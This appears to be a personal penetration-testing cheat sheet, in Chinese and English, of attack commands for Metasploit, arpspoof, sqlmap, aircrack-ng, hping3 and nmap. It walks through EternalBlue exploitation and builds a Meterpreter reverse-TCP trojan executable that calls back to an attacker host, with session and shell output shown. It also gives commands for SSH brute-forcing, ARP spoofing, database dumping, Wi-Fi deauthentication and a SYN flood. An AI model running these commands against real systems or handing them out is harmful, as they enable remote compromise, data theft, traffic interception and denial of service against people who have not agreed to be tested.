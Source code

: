 # msfconsole

```bash
snap install metasploit-framework
# Download the package
```

```bash
msfconsole
# Enter the console
```

## ms17_010

search ms17_010 

\#永恒之蓝漏洞模板 

- use auxiliary/scanner/smb/smb_ms17_010 

show options 

- set rhosts 192.168.140.129 

\#扫描目标IP是否存在此漏洞 

- msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.26.197.13 LPORT=12345 -f exe > win2012.exe 

\#生成一个win2012.exe的木马文件，反向连接到kali主机 

- use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp 

\#开启端口监听 

- set payload windows/meterpreter_reverse_tcp 

\#设置payload反弹 

show options 

\#设置参数 

- set LHOST 172.26.197.13 

LHOST => 172.26.197.13 

- set LPORT 12345 

LPORT => 12345 

\#设置反向连接IP（kali）和端口 

- run 

[*] Started reverse TCP handler on 172.26.197.13:12345 

[*] Meterpreter session 1 opened (172.26.197.13:12345 -> 172.26.192.1:2177) at 2023-12-11 23:23:41 +0800 

\#开始监听 

- shell 

Process 2016 created. 

Channel 2 created. 

Microsoft Windows [�汾 6.1.7601] 

��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ���� 

\#获取权限 

- use exploit/windows/smb/ms17_010_eternalblue 

show options 

## ssh_login

```bash
search ssh_login

use 

set RHOSTS target
set USER_FILE /path/to/user_dict
set PASS_FILE /path/to/pass_dict
# The file type should be txt
```

```bash
vim password.txt
```

# arpspoof

[ARP欺骗工具arpspoof的用法](https://blog.csdn.net/who_im_i/article/details/120234324)

```bash
apt install -y dsniff ssldump
```

设置是否为目标和主机转发流量，0为不转发

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

arp欺骗，需要指定相关网卡。

```bash
arpspoof -i <eth0> -t <target> <host>
# -i 指定特定的网卡
# -t 目标IP
# host 网关IP
```

# sqlmap

扫描当前数据库

```bash
sqlmap -u "url" --cookie="cookie" --current-db
```

```bash
sqlmap -u "url" --cookie="cookie" -D database --tables
sqlmap -u "url" --cookie="cookie" -D database -T table --columns
sqlmap -u "url" --cookie="cookie" -D database -T table -C col1,col2 --dump
```

# aircrack-ng

查看无线网卡信息

```bash
airmon-ng
```

开启网卡监听模式

```bash
airmon-ng start wlan0
```

使用airodump-ng 扫描信号

```bash
airodump-ng wlan0mon
```

| 符号     | 意义                          |
| ------ | --------------------------- |
| BSSID  | AP端的MAC地址                   |
| PWR    | 信号强度，数字越小越好                 |
| \#Data | 对应的路由器的在线数据吞吐量，数字越大，数据上传量越大 |
| CH     | 对应路由器的所在频道                  |
| ESSID  | 对应路由器的名称                    |

使用airodump-ng 监听指定目标频道

```bash
airodump-ng -c <ch> -w aircrack/ --bssid <bssid> wlan0
```

使用aireplay-ng 进行解除认证攻击模式

```bash
aireplay-ng -0 0 -a <AP address> -c <client address> wlan0
# 指定AP和客户端的地址，将其进行破解
```

# hping3

```bash
hping3 -S -V --flood target
# hitting the port 80 server of server
```

# nmap

```bash
nmap -O -Pn target
# scan the OS of target

nmap -A target
# default script scanning from nmap and trace route

nmap -Ss 192.168.0.1-255
# scan a range of address
```

